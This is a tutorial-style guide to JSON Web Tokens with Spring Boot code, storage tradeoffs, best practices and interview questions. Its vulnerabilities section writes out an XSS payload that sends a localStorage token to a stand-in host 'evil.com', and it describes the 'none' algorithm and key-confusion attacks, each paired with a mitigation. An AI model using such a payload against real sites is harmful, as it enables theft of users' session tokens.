



# JSON Web Tokens (JWT)

> **The stateless, compact, self-contained token format that powers modern API authentication and authorization across distributed systems.**

---

!!! abstract "Why JWT Exists"
    Traditional session-based auth requires the server to store session state. In a microservices world with 50+ services behind a load balancer, sharing session state is expensive and fragile. JWT solves this by encoding all necessary user/session info **inside the token itself** — no server-side lookup needed.

---

## What is JWT?

JWT (RFC 7519) is an open standard that defines a compact, URL-safe way to represent claims between two parties. The token is **digitally signed** so it can be verified and trusted.

**Key properties:**

- **Self-contained** — carries user identity and permissions in the payload
- **Stateless** — server does not need to store session data
- **Compact** — small enough to send in HTTP headers, URLs, or POST bodies
- **Tamper-proof** — cryptographic signature ensures integrity

---

## JWT Structure

A JWT has three Base64URL-encoded parts separated by dots:

```
xxxxx.yyyyy.zzzzz
  |       |       |
Header  Payload  Signature
```

### 1. Header

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
```

### 2. Payload (Claims)

```json
{
  "sub": "user-12345",
  "name": "Vamsi Karuturi",
  "email": "vamsi@example.com",
  "roles": ["ADMIN", "USER"],
  "iat": 1716000000,
  "exp": 1716003600,
  "iss": "auth.mycompany.com"
}
```

| Claim | Type | Description |
|-------|------|-------------|
| `sub` | Registered | Subject (user ID) |
| `iss` | Registered | Issuer |
| `exp` | Registered | Expiration time (epoch seconds) |
| `iat` | Registered | Issued at |
| `nbf` | Registered | Not before |
| `aud` | Registered | Audience (intended recipient) |
| `roles` | Custom | Application-specific claims |

### 3. Signature

```
RSASHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  privateKey
)
```

!!! warning "Never Store Sensitive Data in Payload"
    The payload is only Base64-encoded, **not encrypted**. Anyone can decode it. Never put passwords, SSNs, or secrets in JWT claims.

---

## How JWT Authentication Works



---

## Signing Algorithms

| Algorithm | Type | Key | Use Case |
|-----------|------|-----|----------|
| **HS256** | Symmetric | Single shared secret | Monoliths, same-service verification |
| **RS256** | Asymmetric | RSA private/public key pair | Microservices (auth signs, services verify with public key) |
| **ES256** | Asymmetric | ECDSA (Elliptic Curve) | Mobile/IoT (smaller keys, faster) |

!!! tip "RS256 for Microservices"
    Use RS256 when the token issuer and verifier are different services. The auth server holds the private key; all other services only need the public key to verify tokens. This follows the principle of least privilege.



---

## Access Tokens vs Refresh Tokens

| Aspect | Access Token | Refresh Token |
|--------|--------------|---------------|
| **Purpose** | Authorize API requests | Obtain new access tokens |
| **Lifetime** | Short (5-15 minutes) | Long (7-30 days) |
| **Storage** | Memory or short-lived cookie | HttpOnly secure cookie |
| **Sent to** | Resource servers | Auth server only |
| **Revocation** | Hard (stateless) | Easy (stored server-side) |



!!! note "Token Rotation"
    Always rotate refresh tokens on use. If a stolen refresh token is used after the legitimate user already rotated it, invalidate the entire token family (all refresh tokens for that user).

---

## JWT vs Session-Based Authentication

| Criteria | JWT (Token-Based) | Session-Based |
|----------|-------------------|---------------|
| **State** | Stateless (token holds data) | Stateful (server stores session) |
| **Scalability** | Excellent (no shared state) | Requires sticky sessions or shared store |
| **Storage** | Client-side | Server-side (Redis/DB) |
| **Revocation** | Difficult without blacklist | Easy (delete session) |
| **Cross-domain** | Works natively (Bearer header) | Requires CORS cookie config |
| **Mobile-friendly** | Yes (no cookies needed) | Harder (cookie handling varies) |
| **Performance** | No DB lookup per request | DB/cache lookup per request |
| **Security** | Token theft = full access until expiry | Session can be killed instantly |

!!! tip "When to Use What"
    - **JWT**: Microservices, APIs, mobile backends, cross-domain auth, serverless
    - **Sessions**: Monoliths, apps needing instant revocation, banking/high-security apps

---

## Token Storage — Security Tradeoffs

| Storage | XSS Vulnerable? | CSRF Vulnerable? | Recommendation |
|---------|-----------------|-------------------|----------------|
| `localStorage` | Yes (JS can read) | No | Avoid for sensitive tokens |
| `sessionStorage` | Yes (JS can read) | No | Slightly better (tab-scoped) |
| HttpOnly Cookie | No (JS cannot read) | Yes | Use with CSRF protection |
| In-memory (JS variable) | Partial (harder to steal) | No | Best for SPAs + refresh via cookie |

!!! warning "Best Practice for SPAs"
    Store access tokens in memory (JavaScript variable). Store refresh tokens in `HttpOnly`, `Secure`, `SameSite=Strict` cookies. This prevents both XSS and CSRF attacks on your most sensitive token.

---

## Common Vulnerabilities

### 1. The "none" Algorithm Attack

```json
// Attacker modifies header to bypass signature verification
{
  "alg": "none",
  "typ": "JWT"
}
```

**Mitigation:** Always validate the `alg` header server-side. Reject tokens with `alg: none`. Use an allowlist of accepted algorithms.

### 2. Token Hijacking (XSS)

If tokens are in `localStorage`, any XSS vulnerability exposes them. Attacker injects `<script>fetch('evil.com?t=' + localStorage.getItem('token'))</script>`.

**Mitigation:** Store in HttpOnly cookies. Sanitize all user input. Use Content-Security-Policy headers.

### 3. Replay Attacks

Attacker intercepts a valid JWT and reuses it.

**Mitigation:** Short expiry times, `jti` (JWT ID) claim for one-time-use tokens, bind tokens to client IP or fingerprint.

### 4. Key Confusion (RS256 vs HS256)

Attacker changes `alg` from RS256 to HS256, then signs with the public key (which is known). If the server uses the public key as the HMAC secret, verification succeeds.

**Mitigation:** Never let the token dictate which algorithm to use. Configure the expected algorithm server-side.

---

## JWT in Spring Boot

### Dependencies (Maven)

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-oauth2-resource-server</artifactId>
</dependency>
<dependency>
    <groupId>io.jsonwebtoken</groupId>
    <artifactId>jjwt-api</artifactId>
    <version>0.12.5</version>
</dependency>
<dependency>
    <groupId>io.jsonwebtoken</groupId>
    <artifactId>jjwt-impl</artifactId>
    <version>0.12.5</version>
    <scope>runtime</scope>
</dependency>
```

### JWT Utility Service

```java
@Service
public class JwtService {

    @Value("${jwt.secret}")
    private String secret;

    private static final long ACCESS_TOKEN_EXPIRY = 15 * 60 * 1000; // 15 min

    public String generateToken(UserDetails userDetails) {
        return Jwts.builder()
                .subject(userDetails.getUsername())
                .claim("roles", userDetails.getAuthorities().stream()
                        .map(GrantedAuthority::getAuthority).toList())
                .issuedAt(new Date())
                .expiration(new Date(System.currentTimeMillis() + ACCESS_TOKEN_EXPIRY))
                .signWith(getSigningKey(), Jwts.SIG.HS256)
                .compact();
    }

    public String extractUsername(String token) {
        return extractClaims(token).getSubject();
    }

    public boolean isTokenValid(String token, UserDetails userDetails) {
        final String username = extractUsername(token);
        return username.equals(userDetails.getUsername()) && !isTokenExpired(token);
    }

    private boolean isTokenExpired(String token) {
        return extractClaims(token).getExpiration().before(new Date());
    }

    private Claims extractClaims(String token) {
        return Jwts.parser()
                .verifyWith(getSigningKey())
                .build()
                .parseSignedClaims(token)
                .getPayload();
    }

    private SecretKey getSigningKey() {
        return Keys.hmacShaKeyFor(Decoders.BASE64.decode(secret));
    }
}
```

### JWT Authentication Filter

```java
@Component
@RequiredArgsConstructor
public class JwtAuthFilter extends OncePerRequestFilter {

    private final JwtService jwtService;
    private final UserDetailsService userDetailsService;

    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                    HttpServletResponse response,
                                    FilterChain filterChain) throws ServletException, IOException {

        final String authHeader = request.getHeader("Authorization");

        if (authHeader == null || !authHeader.startsWith("Bearer ")) {
            filterChain.doFilter(request, response);
            return;
        }

        final String jwt = authHeader.substring(7);
        final String username = jwtService.extractUsername(jwt);

        if (username != null && SecurityContextHolder.getContext().getAuthentication() == null) {
            UserDetails userDetails = userDetailsService.loadUserByUsername(username);

            if (jwtService.isTokenValid(jwt, userDetails)) {
                UsernamePasswordAuthenticationToken authToken =
                        new UsernamePasswordAuthenticationToken(
                                userDetails, null, userDetails.getAuthorities());
                authToken.setDetails(new WebAuthenticationDetailsSource().buildDetails(request));
                SecurityContextHolder.getContext().setAuthentication(authToken);
            }
        }

        filterChain.doFilter(request, response);
    }
}
```

### Security Configuration

```java
@Configuration
@EnableWebSecurity
@RequiredArgsConstructor
public class SecurityConfig {

    private final JwtAuthFilter jwtAuthFilter;
    private final AuthenticationProvider authenticationProvider;

    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        return http
                .csrf(AbstractHttpConfigurer::disable)
                .authorizeHttpRequests(auth -> auth
                        .requestMatchers("/api/auth/**").permitAll()
                        .requestMatchers("/api/admin/**").hasRole("ADMIN")
                        .anyRequest().authenticated()
                )
                .sessionManagement(session ->
                        session.sessionCreationPolicy(SessionCreationPolicy.STATELESS))
                .authenticationProvider(authenticationProvider)
                .addFilterBefore(jwtAuthFilter, UsernamePasswordAuthenticationFilter.class)
                .build();
    }
}
```

### Using Spring OAuth2 Resource Server (Simpler approach)

```yaml
# application.yml
spring:
  security:
    oauth2:
      resourceserver:
        jwt:
          issuer-uri: https://auth.mycompany.com
          # OR provide the public key directly:
          # public-key-location: classpath:public.pem
```

```java
@Configuration
@EnableWebSecurity
public class OAuth2ResourceServerConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        return http
                .authorizeHttpRequests(auth -> auth
                        .requestMatchers("/public/**").permitAll()
                        .anyRequest().authenticated())
                .oauth2ResourceServer(oauth2 -> oauth2
                        .jwt(jwt -> jwt.jwtAuthenticationConverter(jwtAuthConverter())))
                .build();
    }

    @Bean
    public JwtAuthenticationConverter jwtAuthConverter() {
        JwtGrantedAuthoritiesConverter converter = new JwtGrantedAuthoritiesConverter();
        converter.setAuthoritiesClaimName("roles");
        converter.setAuthorityPrefix("ROLE_");

        JwtAuthenticationConverter authConverter = new JwtAuthenticationConverter();
        authConverter.setJwtGrantedAuthoritiesConverter(converter);
        return authConverter;
    }
}
```

---

## Best Practices

| Practice | Rationale |
|----------|-----------|
| Keep access tokens short-lived (5-15 min) | Limits damage window if token is stolen |
| Use refresh token rotation | Detects token reuse / theft |
| Set `iss`, `aud`, `exp` claims always | Prevents token misuse across services |
| Use asymmetric keys (RS256/ES256) for distributed systems | Only auth server needs private key |
| Validate all claims server-side | Never trust client-provided `alg` |
| Use a token blacklist/revocation list for critical apps | Enables forced logout |
| Minimize payload size | Keep tokens under 8KB (header limits) |
| Never send tokens in URL query params | URLs get logged and cached |
| Use HTTPS exclusively | Prevents MITM token interception |
| Include `jti` for one-time tokens | Prevents replay attacks |

---

## Common Interview Questions

**Q: How do you revoke a JWT before expiry?**
> Maintain a server-side blacklist (Redis set of revoked `jti` values). Check on each request. This partially sacrifices statelessness but is necessary for security-critical operations like logout or password change.

**Q: What happens if the JWT signing key is compromised?**
> All issued tokens become untrustworthy. Rotate the key immediately, invalidate all existing tokens, force re-authentication. Use key rotation strategies (JWKS with `kid` header) so you can transition gracefully.

**Q: Why not just use a longer-lived access token instead of refresh tokens?**
> A long-lived access token means a longer window of exposure if stolen. Refresh tokens are only sent to the auth server (smaller attack surface), can be stored more securely, and can be revoked individually.

**Q: How do microservices validate JWTs without calling the auth server?**
> Using asymmetric signing (RS256). The auth server publishes its public key at a JWKS endpoint (e.g., `/.well-known/jwks.json`). Each microservice caches this public key and verifies tokens locally — zero network calls.

**Q: Can JWT be used for authorization, not just authentication?**
> Yes. Include role/permission claims in the payload. The resource server reads these claims to make access control decisions without a database lookup. Be cautious — if roles change, old tokens still carry stale claims until expiry.

**Q: What is the difference between JWS and JWE?**
> JWS (JSON Web Signature) ensures integrity — the token is signed but readable by anyone. JWE (JSON Web Encryption) ensures confidentiality — the payload is encrypted and only readable by the intended recipient. Most "JWT" usage refers to JWS.

**Q: Design a token-based auth system for a banking app.**
> Short access tokens (5 min), refresh tokens stored in HttpOnly cookies with device binding, token blacklist in Redis for instant revocation, RS256 signing, `jti` for idempotency, step-up auth (re-authenticate) for sensitive operations like transfers.

---
